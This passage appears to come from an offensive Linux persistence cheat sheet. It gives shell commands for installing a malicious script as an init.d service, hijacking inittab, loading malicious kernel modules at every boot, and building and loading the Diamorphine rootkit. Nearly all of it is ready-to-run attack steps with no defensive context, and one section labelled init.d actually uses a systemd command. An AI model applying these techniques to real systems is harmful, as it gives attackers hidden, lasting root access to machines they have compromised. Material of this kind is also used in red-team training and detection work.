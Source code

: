 #### Create Service Using `init.d` (Legacy)
- **Create Service Using `init.d` (Legacy):**
	```bash
	sudo cp malicious_script.sh /etc/init.d/
	sudo chmod +x /etc/init.d/malicious_script.sh
	sudo update-rc.d malicious_script.sh defaults
	sudo service malicious_script.sh start
	```

#### Modify Existing Service Using `init.d` (Legacy)
- **Modify Existing Service Using `init.d` (Legacy):**
	```bash
	sudo systemctl edit <target_service>
	# Add malicious commands to be executed by the service
	```

#### `init` Hijacking
- **Hijack System Init:** Modify the `inittab` file to include malicious commands.
	```bash
	nano /etc/inittab
	```
	- **Example entry:**
	    ```bash
	    id:5:initdefault:
	    si::sysinit:/path/to/malicious_script.sh
	    ```

# Kernel Module Persistence
Attackers can maintain persistence by loading malicious kernel modules.

#### Load Malicious Kernel Module
- **Load Malicious Kernel Module:**
	```bash
	sudo insmod /path/to/malicious_module.ko
	```

#### Make Kernel Module Persistent
- **Make Kernel Module Persistent:**
	```bash
	echo "/path/to/malicious_module.ko" >> /etc/modules
	```

#### Rootkit Installation
- **Install a Simple Rootkit:**
	```bash
	sudo apt-get install -y linux-headers-$(uname -r)
	git clone https://github.com/m0nad/Diamorphine
	cd Diamorphine
	make
	sudo insmod diamorphine.ko
	```
